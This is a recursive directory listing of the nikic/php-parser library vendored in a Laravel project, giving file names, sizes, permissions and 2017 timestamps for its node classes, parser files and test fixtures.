drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 AssignOp
-rw-r--r-- 1 www-data www-data  695 Mar  5  2017 AssignOp.php
-rw-r--r-- 1 www-data www-data  712 Mar  5  2017 AssignRef.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 BinaryOp
-rw-r--r-- 1 www-data www-data  769 Mar  5  2017 BinaryOp.php
-rw-r--r-- 1 www-data www-data  537 Mar  5  2017 BitwiseNot.php
-rw-r--r-- 1 www-data www-data  550 Mar  5  2017 BooleanNot.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 Cast
-rw-r--r-- 1 www-data www-data  533 Mar  5  2017 Cast.php
-rw-r--r-- 1 www-data www-data  750 Mar  5  2017 ClassConstFetch.php
-rw-r--r-- 1 www-data www-data  527 Mar  5  2017 Clone_.php
-rw-r--r-- 1 www-data www-data 2.3K Mar  5  2017 Closure.php
-rw-r--r-- 1 www-data www-data  743 Mar  5  2017 ClosureUse.php
-rw-r--r-- 1 www-data www-data  568 Mar  5  2017 ConstFetch.php
-rw-r--r-- 1 www-data www-data  530 Mar  5  2017 Empty_.php
-rw-r--r-- 1 www-data www-data  645 Mar  5  2017 Error.php
-rw-r--r-- 1 www-data www-data  544 Mar  5  2017 ErrorSuppress.php
-rw-r--r-- 1 www-data www-data  528 Mar  5  2017 Eval_.php
-rw-r--r-- 1 www-data www-data  651 Mar  5  2017 Exit_.php
-rw-r--r-- 1 www-data www-data  792 Mar  5  2017 FuncCall.php
-rw-r--r-- 1 www-data www-data  811 Mar  5  2017 Include_.php
-rw-r--r-- 1 www-data www-data  728 Mar  5  2017 Instanceof_.php
-rw-r--r-- 1 www-data www-data  531 Mar  5  2017 Isset_.php
-rw-r--r-- 1 www-data www-data  598 Mar  5  2017 List_.php
-rw-r--r-- 1 www-data www-data  906 Mar  5  2017 MethodCall.php
-rw-r--r-- 1 www-data www-data  853 Mar  5  2017 New_.php
-rw-r--r-- 1 www-data www-data  528 Mar  5  2017 PostDec.php
-rw-r--r-- 1 www-data www-data  528 Mar  5  2017 PostInc.php
-rw-r--r-- 1 www-data www-data  526 Mar  5  2017 PreDec.php
-rw-r--r-- 1 www-data www-data  526 Mar  5  2017 PreInc.php
-rw-r--r-- 1 www-data www-data  530 Mar  5  2017 Print_.php
-rw-r--r-- 1 www-data www-data  731 Mar  5  2017 PropertyFetch.php
-rw-r--r-- 1 www-data www-data  575 Mar  5  2017 ShellExec.php
-rw-r--r-- 1 www-data www-data  913 Mar  5  2017 StaticCall.php
-rw-r--r-- 1 www-data www-data  754 Mar  5  2017 StaticPropertyFetch.php
-rw-r--r-- 1 www-data www-data  880 Mar  5  2017 Ternary.php
-rw-r--r-- 1 www-data www-data  537 Mar  5  2017 UnaryMinus.php
-rw-r--r-- 1 www-data www-data  548 Mar  5  2017 UnaryPlus.php
-rw-r--r-- 1 www-data www-data  549 Mar  5  2017 Variable.php
-rw-r--r-- 1 www-data www-data  552 Mar  5  2017 YieldFrom.php
-rw-r--r-- 1 www-data www-data  736 Mar  5  2017 Yield_.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Expr/AssignOp:
total 56K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 BitwiseAnd.php
-rw-r--r-- 1 www-data www-data  119 Mar  5  2017 BitwiseOr.php
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 BitwiseXor.php
-rw-r--r-- 1 www-data www-data  116 Mar  5  2017 Concat.php
-rw-r--r-- 1 www-data www-data  113 Mar  5  2017 Div.php
-rw-r--r-- 1 www-data www-data  115 Mar  5  2017 Minus.php
-rw-r--r-- 1 www-data www-data  113 Mar  5  2017 Mod.php
-rw-r--r-- 1 www-data www-data  113 Mar  5  2017 Mul.php
-rw-r--r-- 1 www-data www-data  114 Mar  5  2017 Plus.php
-rw-r--r-- 1 www-data www-data  113 Mar  5  2017 Pow.php
-rw-r--r-- 1 www-data www-data  119 Mar  5  2017 ShiftLeft.php
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 ShiftRight.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Expr/BinaryOp:
total 116K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 BitwiseAnd.php
-rw-r--r-- 1 www-data www-data  119 Mar  5  2017 BitwiseOr.php
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 BitwiseXor.php
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 BooleanAnd.php
-rw-r--r-- 1 www-data www-data  119 Mar  5  2017 BooleanOr.php
-rw-r--r-- 1 www-data www-data  119 Mar  5  2017 Coalesce.php
-rw-r--r-- 1 www-data www-data  116 Mar  5  2017 Concat.php
-rw-r--r-- 1 www-data www-data  113 Mar  5  2017 Div.php
-rw-r--r-- 1 www-data www-data  115 Mar  5  2017 Equal.php
-rw-r--r-- 1 www-data www-data  117 Mar  5  2017 Greater.php
-rw-r--r-- 1 www-data www-data  124 Mar  5  2017 GreaterOrEqual.php
-rw-r--r-- 1 www-data www-data  119 Mar  5  2017 Identical.php
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 LogicalAnd.php
-rw-r--r-- 1 www-data www-data  119 Mar  5  2017 LogicalOr.php
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 LogicalXor.php
-rw-r--r-- 1 www-data www-data  115 Mar  5  2017 Minus.php
-rw-r--r-- 1 www-data www-data  113 Mar  5  2017 Mod.php
-rw-r--r-- 1 www-data www-data  113 Mar  5  2017 Mul.php
-rw-r--r-- 1 www-data www-data  118 Mar  5  2017 NotEqual.php
-rw-r--r-- 1 www-data www-data  122 Mar  5  2017 NotIdentical.php
-rw-r--r-- 1 www-data www-data  114 Mar  5  2017 Plus.php
-rw-r--r-- 1 www-data www-data  113 Mar  5  2017 Pow.php
-rw-r--r-- 1 www-data www-data  119 Mar  5  2017 ShiftLeft.php
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 ShiftRight.php
-rw-r--r-- 1 www-data www-data  117 Mar  5  2017 Smaller.php
-rw-r--r-- 1 www-data www-data  124 Mar  5  2017 SmallerOrEqual.php
-rw-r--r-- 1 www-data www-data  120 Mar  5  2017 Spaceship.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Expr/Cast:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  104 Mar  5  2017 Array_.php
-rw-r--r-- 1 www-data www-data  104 Mar  5  2017 Bool_.php
-rw-r--r-- 1 www-data www-data  105 Mar  5  2017 Double.php
-rw-r--r-- 1 www-data www-data  103 Mar  5  2017 Int_.php
-rw-r--r-- 1 www-data www-data  106 Mar  5  2017 Object_.php
-rw-r--r-- 1 www-data www-data  106 Mar  5  2017 String_.php
-rw-r--r-- 1 www-data www-data  104 Mar  5  2017 Unset_.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Name:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  942 Mar  5  2017 FullyQualified.php
-rw-r--r-- 1 www-data www-data  936 Mar  5  2017 Relative.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Scalar:
total 40K
drwxr-xr-x 3 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 1.7K Mar  5  2017 DNumber.php
-rw-r--r-- 1 www-data www-data  590 Mar  5  2017 Encapsed.php
-rw-r--r-- 1 www-data www-data  596 Mar  5  2017 EncapsedStringPart.php
-rw-r--r-- 1 www-data www-data 2.1K Mar  5  2017 LNumber.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 MagicConst
-rw-r--r-- 1 www-data www-data  558 Mar  5  2017 MagicConst.php
-rw-r--r-- 1 www-data www-data 4.5K Mar  5  2017 String_.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Scalar/MagicConst:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  192 Mar  5  2017 Class_.php
-rw-r--r-- 1 www-data www-data  187 Mar  5  2017 Dir.php
-rw-r--r-- 1 www-data www-data  189 Mar  5  2017 File.php
-rw-r--r-- 1 www-data www-data  198 Mar  5  2017 Function_.php
-rw-r--r-- 1 www-data www-data  189 Mar  5  2017 Line.php
-rw-r--r-- 1 www-data www-data  193 Mar  5  2017 Method.php
-rw-r--r-- 1 www-data www-data  200 Mar  5  2017 Namespace_.php
-rw-r--r-- 1 www-data www-data  192 Mar  5  2017 Trait_.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Stmt:
total 188K
drwxr-xr-x 3 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  590 Mar  5  2017 Break_.php
-rw-r--r-- 1 www-data www-data  759 Mar  5  2017 Case_.php
-rw-r--r-- 1 www-data www-data  918 Mar  5  2017 Catch_.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  5  2017 ClassConst.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  5  2017 ClassLike.php
-rw-r--r-- 1 www-data www-data 3.1K Mar  5  2017 ClassMethod.php
-rw-r--r-- 1 www-data www-data 3.2K Mar  5  2017 Class_.php
-rw-r--r-- 1 www-data www-data  590 Mar  5  2017 Const_.php
-rw-r--r-- 1 www-data www-data  602 Mar  5  2017 Continue_.php
-rw-r--r-- 1 www-data www-data  690 Mar  5  2017 DeclareDeclare.php
-rw-r--r-- 1 www-data www-data  766 Mar  5  2017 Declare_.php
-rw-r--r-- 1 www-data www-data  707 Mar  5  2017 Do_.php
-rw-r--r-- 1 www-data www-data  553 Mar  5  2017 Echo_.php
-rw-r--r-- 1 www-data www-data  710 Mar  5  2017 ElseIf_.php
-rw-r--r-- 1 www-data www-data  546 Mar  5  2017 Else_.php
-rw-r--r-- 1 www-data www-data  551 Mar  5  2017 Finally_.php
-rw-r--r-- 1 www-data www-data 1.4K Mar  5  2017 For_.php
-rw-r--r-- 1 www-data www-data 1.6K Mar  5  2017 Foreach_.php
-rw-r--r-- 1 www-data www-data 1.9K Mar  5  2017 Function_.php
-rw-r--r-- 1 www-data www-data  571 Mar  5  2017 Global_.php
-rw-r--r-- 1 www-data www-data  552 Mar  5  2017 Goto_.php
-rw-r--r-- 1 www-data www-data  895 Mar  5  2017 GroupUse.php
-rw-r--r-- 1 www-data www-data  637 Mar  5  2017 HaltCompiler.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  5  2017 If_.php
-rw-r--r-- 1 www-data www-data  534 Mar  5  2017 InlineHTML.php
-rw-r--r-- 1 www-data www-data  980 Mar  5  2017 Interface_.php
-rw-r--r-- 1 www-data www-data  513 Mar  5  2017 Label.php
-rw-r--r-- 1 www-data www-data  726 Mar  5  2017 Namespace_.php
-rw-r--r-- 1 www-data www-data  194 Mar  5  2017 Nop.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  5  2017 Property.php
-rw-r--r-- 1 www-data www-data  737 Mar  5  2017 PropertyProperty.php
-rw-r--r-- 1 www-data www-data  569 Mar  5  2017 Return_.php
-rw-r--r-- 1 www-data www-data  737 Mar  5  2017 StaticVar.php
-rw-r--r-- 1 www-data www-data  584 Mar  5  2017 Static_.php
-rw-r--r-- 1 www-data www-data  696 Mar  5  2017 Switch_.php
-rw-r--r-- 1 www-data www-data  545 Mar  5  2017 Throw_.php
-rw-r--r-- 1 www-data www-data  798 Mar  5  2017 TraitUse.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 TraitUseAdaptation
-rw-r--r-- 1 www-data www-data  227 Mar  5  2017 TraitUseAdaptation.php
-rw-r--r-- 1 www-data www-data  723 Mar  5  2017 Trait_.php
-rw-r--r-- 1 www-data www-data  929 Mar  5  2017 TryCatch.php
-rw-r--r-- 1 www-data www-data  564 Mar  5  2017 Unset_.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  5  2017 UseUse.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  5  2017 Use_.php
-rw-r--r-- 1 www-data www-data  707 Mar  5  2017 While_.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Stmt/TraitUseAdaptation:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 1020 Mar  5  2017 Alias.php
-rw-r--r-- 1 www-data www-data  869 Mar  5  2017 Precedence.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/NodeVisitor:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data  11K Mar  5  2017 NameResolver.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Parser:
total 308K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 1.6K Mar  5  2017 Multiple.php
-rw-r--r--  1 www-data www-data 155K Mar  5  2017 Php5.php
-rw-r--r--  1 www-data www-data 136K Mar  5  2017 Php7.php
-rw-r--r--  1 www-data www-data 3.9K Mar  5  2017 Tokens.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/PrettyPrinter:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data  36K Mar  5  2017 Standard.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Serializer:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 3.1K Mar  5  2017 XML.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Unserializer:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 4.9K Mar  5  2017 XML.php

/var/www/laravel/vendor/nikic/php-parser/test:
total 20K
drwxr-xr-x  4 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x  8 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 PhpParser
-rw-r--r--  1 www-data www-data  446 Mar  5  2017 bootstrap.php
drwxr-xr-x  4 www-data www-data 4.0K Mar  5  2017 code

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser:
total 128K
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x  4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data  501 Mar  5  2017 AutoloaderTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Builder
-rw-r--r--  1 www-data www-data 3.5K Mar  5  2017 BuilderFactoryTest.php
-rw-r--r--  1 www-data www-data 2.2K Mar  5  2017 CodeParsingTest.php
-rw-r--r--  1 www-data www-data 2.2K Mar  5  2017 CodeTestAbstract.php
-rw-r--r--  1 www-data www-data 1.8K Mar  5  2017 CommentTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 ErrorHandler
-rw-r--r--  1 www-data www-data 3.6K Mar  5  2017 ErrorTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Lexer
-rw-r--r--  1 www-data www-data 9.6K Mar  5  2017 LexerTest.php
drwxr-xr-x  4 www-data www-data 4.0K Mar  5  2017 Node
-rw-r--r--  1 www-data www-data 8.3K Mar  5  2017 NodeAbstractTest.php
-rw-r--r--  1 www-data www-data 2.4K Mar  5  2017 NodeDumperTest.php
-rw-r--r--  1 www-data www-data  12K Mar  5  2017 NodeTraverserTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 NodeVisitor
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Parser
-rw-r--r--  1 www-data www-data 1.1K Mar  5  2017 ParserFactoryTest.php
-rw-r--r--  1 www-data www-data 6.9K Mar  5  2017 ParserTest.php
-rw-r--r--  1 www-data www-data 8.7K Mar  5  2017 PrettyPrinterTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Serializer
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Unserializer

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/Builder:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 4.4K Mar  5  2017 ClassTest.php
-rw-r--r--  1 www-data www-data 2.8K Mar  5  2017 FunctionTest.php
-rw-r--r--  1 www-data www-data 3.2K Mar  5  2017 InterfaceTest.php
-rw-r--r--  1 www-data www-data 4.4K Mar  5  2017 MethodTest.php
-rw-r--r--  1 www-data www-data 1.2K Mar  5  2017 NamespaceTest.php
-rw-r--r--  1 www-data www-data 4.8K Mar  5  2017 ParamTest.php
-rw-r--r--  1 www-data www-data 3.9K Mar  5  2017 PropertyTest.php
-rw-r--r--  1 www-data www-data 1.4K Mar  5  2017 TraitTest.php
-rw-r--r--  1 www-data www-data 1.2K Mar  5  2017 UseTest.php

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/ErrorHandler:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data  724 Mar  5  2017 CollectingTest.php
-rw-r--r--  1 www-data www-data  360 Mar  5  2017 ThrowingTest.php

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/Lexer:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 4.5K Mar  5  2017 EmulativeTest.php

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/Node:
total 24K
drwxr-xr-x  4 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 4.6K Mar  5  2017 NameTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Scalar
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Stmt

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/Node/Scalar:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  813 Mar  5  2017 MagicConstTest.php
-rw-r--r-- 1 www-data www-data 1.9K Mar  5  2017 StringTest.php

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/Node/Stmt:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  879 Mar  5  2017 ClassConstTest.php
-rw-r--r-- 1 www-data www-data 1.8K Mar  5  2017 ClassMethodTest.php
-rw-r--r-- 1 www-data www-data 2.1K Mar  5  2017 ClassTest.php
-rw-r--r-- 1 www-data www-data  807 Mar  5  2017 InterfaceTest.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  5  2017 PropertyTest.php

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/NodeVisitor:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data  12K Mar  5  2017 NameResolverTest.php

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/Parser:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 3.0K Mar  5  2017 MultipleTest.php
-rw-r--r--  1 www-data www-data  256 Mar  5  2017 Php5Test.php
-rw-r--r--  1 www-data www-data  256 Mar  5  2017 Php7Test.php

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/Serializer:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 4.6K Mar  5  2017 XMLTest.php

/var/www/laravel/vendor/nikic/php-parser/test/PhpParser/Unserializer:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 4.6K Mar  5  2017 XMLTest.php

/var/www/laravel/vendor/nikic/php-parser/test/code:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 parser
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 prettyPrinter

/var/www/laravel/vendor/nikic/php-parser/test/code/parser:
total 44K
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  252 Mar  5  2017 blockComments.test
-rw-r--r-- 1 www-data www-data 1.5K Mar  5  2017 comments.test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 errorHandling
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 expr
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 scalar
-rw-r--r-- 1 www-data www-data  11K Mar  5  2017 semiReserved.test
drwxr-xr-x 7 www-data www-data 4.0K Mar  5  2017 stmt

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/errorHandling:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  510 Mar  5  2017 eofError.test
-rw-r--r-- 1 www-data www-data 1.9K Mar  5  2017 lexerErrors.test
-rw-r--r-- 1 www-data www-data  18K Mar  5  2017 recovery.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/expr:
total 128K
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 3.1K Mar  5  2017 arrayDef.test
-rw-r--r-- 1 www-data www-data 3.9K Mar  5  2017 arrayDestructuring.test
-rw-r--r-- 1 www-data www-data 6.1K Mar  5  2017 assign.test
-rw-r--r-- 1 www-data www-data  598 Mar  5  2017 assignNewByRef.test
-rw-r--r-- 1 www-data www-data 1.2K Mar  5  2017 cast.test
-rw-r--r-- 1 www-data www-data  127 Mar  5  2017 clone.test
-rw-r--r-- 1 www-data www-data 2.8K Mar  5  2017 closure.test
-rw-r--r-- 1 www-data www-data 1.9K Mar  5  2017 comparison.test
-rw-r--r-- 1 www-data www-data  17K Mar  5  2017 constant_expr.test
-rw-r--r-- 1 www-data www-data  141 Mar  5  2017 errorSuppress.test
-rw-r--r-- 1 www-data www-data  432 Mar  5  2017 exit.test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 fetchAndCall
-rw-r--r-- 1 www-data www-data  713 Mar  5  2017 includeAndEval.test
-rw-r--r-- 1 www-data www-data 1.6K Mar  5  2017 issetAndEmpty.test
-rw-r--r-- 1 www-data www-data 2.0K Mar  5  2017 listWithKeys.test
-rw-r--r-- 1 www-data www-data 3.2K Mar  5  2017 logic.test
-rw-r--r-- 1 www-data www-data 4.8K Mar  5  2017 math.test
-rw-r--r-- 1 www-data www-data 2.7K Mar  5  2017 new.test
-rw-r--r-- 1 www-data www-data  278 Mar  5  2017 newWithoutClass.test
-rw-r--r-- 1 www-data www-data  126 Mar  5  2017 print.test
-rw-r--r-- 1 www-data www-data  801 Mar  5  2017 shellExec.test
-rw-r--r-- 1 www-data www-data 2.9K Mar  5  2017 ternaryAndCoalesce.test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 uvs
-rw-r--r-- 1 www-data www-data  885 Mar  5  2017 variable.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/expr/fetchAndCall:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Mar  5  2017 args.test
-rw-r--r-- 1 www-data www-data  474 Mar  5  2017 constFetch.test
-rw-r--r-- 1 www-data www-data 5.9K Mar  5  2017 constantDeref.test
-rw-r--r-- 1 www-data www-data 2.5K Mar  5  2017 funcCall.test
-rw-r--r-- 1 www-data www-data 1.3K Mar  5  2017 newDeref.test
-rw-r--r-- 1 www-data www-data 2.8K Mar  5  2017 objectAccess.test
-rw-r--r-- 1 www-data www-data 1.1K Mar  5  2017 simpleArrayAccess.test
-rw-r--r-- 1 www-data www-data 3.3K Mar  5  2017 staticCall.test
-rw-r--r-- 1 www-data www-data 1.8K Mar  5  2017 staticPropertyFetch.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/expr/uvs:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  481 Mar  5  2017 globalNonSimpleVarError.test
-rw-r--r-- 1 www-data www-data  15K Mar  5  2017 indirectCall.test
-rw-r--r-- 1 www-data www-data 2.0K Mar  5  2017 isset.test
-rw-r--r-- 1 www-data www-data 2.5K Mar  5  2017 misc.test
-rw-r--r-- 1 www-data www-data 2.0K Mar  5  2017 new.test
-rw-r--r-- 1 www-data www-data 1.8K Mar  5  2017 staticProperty.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/scalar:
total 52K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  931 Mar  5  2017 constantString.test
-rw-r--r-- 1 www-data www-data 1.5K Mar  5  2017 docString.test
-rw-r--r-- 1 www-data www-data 1018 Mar  5  2017 docStringNewlines.test
-rw-r--r-- 1 www-data www-data 1.6K Mar  5  2017 encapsedNegVarOffset.test
-rw-r--r-- 1 www-data www-data 6.1K Mar  5  2017 encapsedString.test
-rw-r--r-- 1 www-data www-data 1.4K Mar  5  2017 float.test
-rw-r--r-- 1 www-data www-data  621 Mar  5  2017 int.test
-rw-r--r-- 1 www-data www-data  234 Mar  5  2017 invalidOctal.test
-rw-r--r-- 1 www-data www-data  443 Mar  5  2017 magicConst.test
-rw-r--r-- 1 www-data www-data  260 Mar  5  2017 unicodeEscape.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/stmt:
total 96K
drwxr-xr-x 7 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Mar  5  2017 blocklessStatement.test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 class
-rw-r--r-- 1 www-data www-data  846 Mar  5  2017 const.test
-rw-r--r-- 1 www-data www-data  706 Mar  5  2017 controlFlow.test
-rw-r--r-- 1 www-data www-data 1.2K Mar  5  2017 declare.test
-rw-r--r-- 1 www-data www-data  560 Mar  5  2017 echo.test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 function
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 generator
-rw-r--r-- 1 www-data www-data  695 Mar  5  2017 haltCompiler.test
-rw-r--r-- 1 www-data www-data  121 Mar  5  2017 haltCompilerInvalidSyntax.test
-rw-r--r-- 1 www-data www-data  669 Mar  5  2017 haltCompilerOffset.test
-rw-r--r-- 1 www-data www-data  186 Mar  5  2017 haltCompilerOutermostScope.test
-rw-r--r-- 1 www-data www-data  358 Mar  5  2017 hashbang.test
-rw-r--r-- 1 www-data www-data 1.9K Mar  5  2017 if.test
-rw-r--r-- 1 www-data www-data  250 Mar  5  2017 inlineHTML.test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 loop
-rw-r--r-- 1 www-data www-data 1.5K Mar  5  2017 multiCatch.test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 namespace
-rw-r--r-- 1 www-data www-data 1.3K Mar  5  2017 switch.test
-rw-r--r-- 1 www-data www-data 2.8K Mar  5  2017 tryCatch.test
-rw-r--r-- 1 www-data www-data  482 Mar  5  2017 tryWithoutCatch.test
-rw-r--r-- 1 www-data www-data  375 Mar  5  2017 unset.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/stmt/class:
total 84K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
